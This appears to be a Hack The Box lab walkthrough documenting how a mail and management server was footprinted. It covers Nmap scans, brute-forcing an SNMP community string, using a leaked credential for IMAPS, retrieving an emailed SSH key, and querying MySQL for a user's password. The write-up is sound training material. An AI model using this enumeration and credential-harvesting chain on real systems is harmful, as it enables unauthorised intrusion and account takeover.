




# Hard Lab
This lab features an MX and management server for the internal network. The server also has the function of a backup server for the internal accounts in the domain.

Similar to the Medium Lab, we need to access the credentials of the user, `HTB`.

## Approach
First, I performed a Nmap scan to identify the services running on the target.
```bash
nmap -sV -sC 10.129.213.255
```
 <br>
From the results, we can see that the following services are running on the target:
- SSH on port 22
- POP3 on port 110
- IMAP on port 143
- IMAP with TLS/SSL on port 993
- POP3 with TLS/SSL on port 995

Next, I run a UDP Nmap scan on the target to identify other possible services, specifically SNMP and IPMI.
```bash
nmap -sU -sV -sC 10.129.213.255 -p 161,162,623
```
 <br>
We can see that SNMP is also running on the target.

Since the target is not running SNMPv1, let's try to find the community string to access the service from [SecLists](https://github.com/danielmiessler/SecLists).
```bash
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 10.129.213.255
```
With this, we obtained the community string, `backup`. <br>
We can now query Object Identifiers for their information with `snmpwalk`.
```bash
snmpwalk -v2c -c backup 10.129.213.255
```
 <br>
There seems to be a credential for Tom, `tom:NMds732Js2761`.

Using the credentials, we gain access to the IMAPS service on Tom's account.
```bash
openssl s_client -connect 10.129.213.255:imaps
```
```
## After connecting to IMAPS service
1 LOGIN tom NMds732Js2761
1 SELECT INBOX					## "1 EXISTS" in it
1 FETCH 1 RFC822				## retrieves email and content
```
The content of the email shows a SSH private key, which I saved in `openssh-priv-key`.
Before accessing the SSH service, we need to change the permissions of our private key file.
```bash
chmod 600 openssh-priv-key
ssh -i openssh-priv-key tom@10.129.213.255
```
We finally gain SSH access on the target.

Taking a look at `bash_history`, I noticed that he attempted to use MYSQL service, so I also logged on to the MYSQL service using the password that we found before.
```bash
mysql -u tom -p		## password is "NMds732Js2761"
```
Then, I looked through the MYSQL database and obtained the password for the user `HTB`.
```sql
show databases;
use users;
show tables;
show columns from users;
select * from users where username="HTB";
```
